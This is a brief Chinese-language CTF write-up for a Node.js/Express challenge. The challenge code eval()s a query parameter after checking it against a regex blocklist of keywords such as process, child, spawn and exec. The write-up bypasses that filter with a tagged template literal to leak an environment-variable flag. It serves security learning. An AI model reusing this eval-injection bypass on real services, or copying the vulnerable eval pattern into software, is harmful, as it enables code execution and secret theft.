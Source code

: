 # 知识点
node.js<br />express.js<br />**directory`flag`-> directory("flag")**
# 思路
源码
```javascript
title
View Source CTF
description
Powered by Node.js and Express.js
lastUpdate
2022-02-22T22:22:22.222Z
source
const express = require('express');
const app = express();

function escape(s) {
  return `${s}`.replace(/./g,c => "&#" + c.charCodeAt(0) + ";");
}

function directory(keys) {
  const values = {
    "title": "View Source CTF",
    "description": "Powered by Node.js and Express.js",
    "flag": process.env.FLAG,
    "lyrics": "Good job, you’ve made it to the bottom of the mind control facility. Well done.",
    "createdAt": "1970-01-01T00:00:00.000Z",
    "lastUpdate": "2022-02-22T22:22:22.222Z",
    "source": require('fs').readFileSync(__filename),
  };
  
  return "<dl>" + keys.map(key => `<dt>${key}</dt><dd><pre>${escape(values[key])}</pre></dd>`).join("") + "</dl>";
}

app.get('/', (req, res) => {
  const payload = req.query.payload;
  
  
  if (payload && typeof payload === "string") {
    const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
    if (matches) {
      res.status(400).send(matches.map(i => `<code>${i}</code>`).join("<br>"));
    } else {
      res.send(`${eval(payload)}`);
    }
  } else {
    res.send(directory(["title", "description", "lastUpdate", "source"]));
  }
});

app.listen(process.env.PORT, () => {
  console.log(`Server started on http://127.0.0.1:${process.env.PORT}`);
});
```
分析发现 process.env.FLAG有flag，可以通过调用directory("flag")返回flag<br />访问/时回获取查询得参数payload，并对其进行匹配过滤
```javascript
const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
```
过滤了（）‘“等<br />可以用directory`flag`绕过<br />/?payload=directory`flag`获取flag<br />![image.png](./images/20231017_2351284312.png)
